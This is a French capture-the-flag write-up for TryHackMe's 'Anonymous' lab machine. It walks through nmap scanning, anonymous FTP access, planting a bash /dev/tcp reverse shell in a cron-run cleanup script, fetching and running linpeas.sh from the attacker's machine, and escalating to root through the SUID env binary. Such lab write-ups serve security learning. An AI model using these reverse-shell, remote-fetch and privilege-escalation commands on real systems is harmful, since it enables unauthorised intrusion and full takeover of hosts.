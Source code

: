 # Write-up Anonymous

Cette machine de niveau medium est disponible sur le site [TryHackMe](https://tryhackme.com/room/anonymous). 
> Elle est relativement simple pour ceux qui souhaitent débuter. 

### Enumération

On commence par récolter des informations en scannant la machine avec l'outil [NMAP](https://nmap.org/).

```
sudo nmap -sV 10.10.141.191
```
Ce scan étant relativement rapide, on obtient après quelques secondes les ports ouverts :

```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-19 15:58 UTC
Nmap scan report for 10.10.160.187
Host is up (0.081s latency).
Not shown: 996 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.0.8 or later
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.00 seconds
```
Le résultat suivant indique que les ports **21, 22, 139 et 445** sont ouverts. On a donc 3 services potentiellement intéressants à explorer : le FTP, le SSH et le SMB (Samba). 

### Flag user

On va tout d'abord jeter un coup d'oeil du côté du FTP. On se connecte avec la commande suivante :

```
ftp 10.10.141.191
```
> Certains serveurs FTP autorisent un accès sans authentification. Il suffit simplement d'utiliser le nom d'utilisateur *anonymous* et de laisser le champ de mot de pase vide.

Dans notre cas, le serveur est bien accessible publiquement. On voit d'ailleurs qu'il contient un dossier *scripts* contenant plusieurs fichiers.

```
ftp> ls
229 Entering Extended Passive Mode (|||35707|)
150 Here comes the directory listing.
-rwxr-xrwx    1 1000     1000          314 Jun 04  2020 clean.sh
-rw-rw-r--    1 1000     1000         1032 Jun 19 14:01 removed_files.log
-rw-r--r--    1 1000     1000           68 May 12  2020 to_do.txt
```
On récupère les fichiers sur notre ordinateur avec la syntaxe get + nom du fichier. 
Le fichier *clean.sh* retient mon intention, c'est un script bash qui semble être écrit de façon à être automatisé avec un *cron job*.
> Un cron job permet d'éxecuter des scripts n'importe quand. Cela permet de les programmer pour s'éxecuter toutes les 5 min, 1 jour, 2 mois etc... Retrouvez une documentation [ici](https://www.hostinger.fr/tutoriels/cron-job).

```bash
!/bin/bash

tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done>
fi
```

Si le script est exécuté régulièrement, on peut s'en servir pour y intégrer un reverse shell. 
> Un reverse shell est un shell contrôlé à distance. On ne se connecte pas à la machine cible, c'est elle qui va se connecter à nous. Il nous suffit d'écouter un port en attente d'une connexion.

Je suis allé récupérer un reverse shell sur ce [Github](https://github.com/swisskyrepo/PayloadsAllTheThings) qui répertorie une liste de payloads très utiles :

```bash
bash -i >& /dev/tcp/10.0.0.1/4242 0>&1
```
On remplace *10.0.0.1* par notre propre IP et le *4242* par le port d'écoute de notre choix. Ici on va prendre le 1234.
On ajoute cette ligne à la toute fin du script *clean.sh*. Quand il va s'éxécuter, notre payload va être aussi lu. 

On retourne sur le FTP pour upload le script modifié avec la commande *put*. On met aussi le port 1234 en écoute avec netcat :

```
sudo nc -lnvp 1234
```
Quelques secondes plus tard, on obtient un shell avec le nom d'user *namelessone*. On peut lire le user.txt qui contient le flag user.

### Flag root

Il faut maintenant obtenir un accès total à la machine cible. C'est à dire avoir tous les droits avec l'utilisateur *root*.

On va utiliser l'outil [Linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) qui va travailler à notre place et nous donner les potentiels vecteurs d'élévation de privilèges.

Je lançe un serveur HTTP sur ma propre machine :

```
python3 -m http.server
```
Puis je récupère le script *linpeas.sh* sur la machine cible pour l'exécuter :

```
wget mettreIpIci:8000/linpeas.sh
```
Après observation, on remarque que le binaire env semble être un vecteur intéréssant à explorer. Un petit tour sur [GTFOBins](https://gtfobins.github.io/gtfobins/env/) pour créer une copie du SUID avec les privilèges root :

```
./env /bin/sh -p
```
On peut exécuter le binaire :

```
/usr/bin/env /bin/sh -p
```
**Bingo !** On est maintenant root sur la machine ! On peut récupérer le flag root.txt dans le dossier /root pour terminer le challenge.

